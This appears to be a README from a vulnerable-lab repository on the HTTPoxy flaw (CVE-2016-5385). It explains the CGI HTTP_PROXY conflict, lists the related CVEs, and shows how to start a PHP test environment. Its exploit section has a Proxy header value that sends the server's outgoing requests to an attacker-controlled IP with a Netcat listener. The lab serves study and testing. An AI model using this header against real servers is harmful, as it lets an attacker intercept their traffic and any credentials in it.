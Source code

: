 # HTTPoxy CGI application vulnerability (CVE-2016-5385)

[中文版本(Chinese version)](README.zh-cn.md)

httpoxy is a set of vulnerabilities that affect application code running in CGI, or CGI-like environments. It comes down to a simple namespace conflict:

- RFC 3875 (CGI) puts the HTTP Proxy header from a request into the environment variables as `HTTP_PROXY`
- `HTTP_PROXY` is a popular environment variable used to configure an outgoing proxy

This leads to a remotely exploitable vulnerability. See <https://httpoxy.org> for further principles description.

CVE-2016-5385 is one of CVEs that assign for HTTPoxy, here are the full CVEs list:

- CVE-2016-5385: PHP
- CVE-2016-5386: Go
- CVE-2016-5387: Apache HTTP Server
- CVE-2016-5388: Apache Tomcat
- CVE-2016-6286: spiffy-cgi-handlers for CHICKEN
- CVE-2016-6287: CHICKEN’s http-client
- CVE-2016-1000104: mod_fcgi
- CVE-2016-1000105: Nginx cgi script
- CVE-2016-1000107: Erlang inets
- CVE-2016-1000108: YAWS
- CVE-2016-1000109: HHVM FastCGI
- CVE-2016-1000110: Python CGIHandler
- CVE-2016-1000111: Python Twisted
- CVE-2016-1000212: lighttpd

## Vulnerable environment:

Execute following command to start a Web application depending on PHP 5.6.23 and GuzzleHttp 6.2.0.

```
docker-compose up -d
```

This [Web page](www/index.php) request for `http://httpbin.org/get` and get the origin IP address, host ip is equal to original IP:

![](1.png)

## Exploit

Send a request with a Proxy header and a available HTTP proxy address: `Proxy: http://*.*.122.65:8888/`:

![](2.png)

It is obvious that the original address in the response has become the address of the proxy server.

Start a Netcat server at the `*.*.122.65` instead of HTTP proxy, we can capture the original request:

![](3.png)